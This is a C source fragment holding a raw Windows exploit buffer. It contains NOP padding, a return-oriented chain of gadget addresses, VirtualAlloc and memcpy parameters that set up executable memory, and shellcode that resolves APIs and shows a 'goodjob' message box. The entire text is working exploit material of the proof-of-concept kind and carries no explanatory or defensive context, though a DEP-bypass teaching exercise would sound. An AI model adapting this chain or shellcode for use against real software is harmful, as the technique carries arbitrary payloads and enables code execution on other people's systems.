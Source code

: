 ```c
// 4	nop
"\x90\x90\x90\x90"
// 4	-1 (current process)
"\xff\xff\xff\xff"
// 4	lpAddress
"\x00\x00\x03\x00"
// 4	dwSize
"\xff\x00\x00\x00"
// 4	flAllocationType
"\x00\x10\x00\x00"
// 4	flProtect
"\x40\x00\x00\x00"
// 4	nop
"\x90\x90\x90\x90"
// 4	pop eax retn
"\x26\xb8\x6e\x7d"
// 16	nop
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
// 4	pop ecx pop ecx retn
"\xf4\x1e\xbf\x77"
// 4	modify ebp
"\x85\x8b\x1d\x5d"
// 4	pop ecx retn
"\xa0\x6f\x5f\x7d"
// 4	into allocated mem
"\x00\x00\x03\x00"
// 4	*dest
"\x00\x00\x03\x00"
// 4	push esp jmp eax (*src)
"\xc6\xc6\xeb\x77"
// 4	count
"\xff\x00\x00\x00"
// 4	into memcpy
"\xb8\x1d\x92\x7c"
// 4	nop
"\x90\x90\x90\x90"
// 168	messagebox
"\xfc\x68\x6a\x0a\x38\x1e\x68\x63\x89\xd1\x4f\x68\x32\x74\x91\x0c"
"\x8b\xf4\x8d\x7e\xf4\x33\xdb\xb7\x04\x2b\xe3\x66\xbb\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xd2\x64\x8b\x5a\x30\x8b\x4b\x0c\x8b"
"\x49\x1c\x8b\x09\x8b\x69\x08\xad\x3d\x6a\x0a\x38\x1e\x75\x05\x95"
"\xff\x57\xf8\x95\x60\x8b\x45\x3c\x8b\x4c\x05\x78\x03\xcd\x8b\x59"
"\x20\x03\xdd\x33\xff\x47\x8b\x34\xbb\x03\xf5\x99\x0f\xbe\x06\x3a"
"\xc4\x74\x08\xc1\xca\x07\x03\xd0\x46\xeb\xf1\x3b\x54\x24\x1c\x75"
"\xe4\x8b\x59\x24\x03\xdd\x66\x8b\x3c\x7b\x8b\x59\x1c\x03\xdd\x03"
"\x2c\xbb\x95\x5f\xab\x57\x61\x3d\x6a\x0a\x38\x1e\x75\xa9\x33\xdb"
"\x53\x68\x2d\x6a\x6f\x62\x68\x67\x6f\x6f\x64\x8b\xc4\x53\x50\x50"
"\x53\xff\x57\xfc\x53\xff\x57\xf8"
;
```

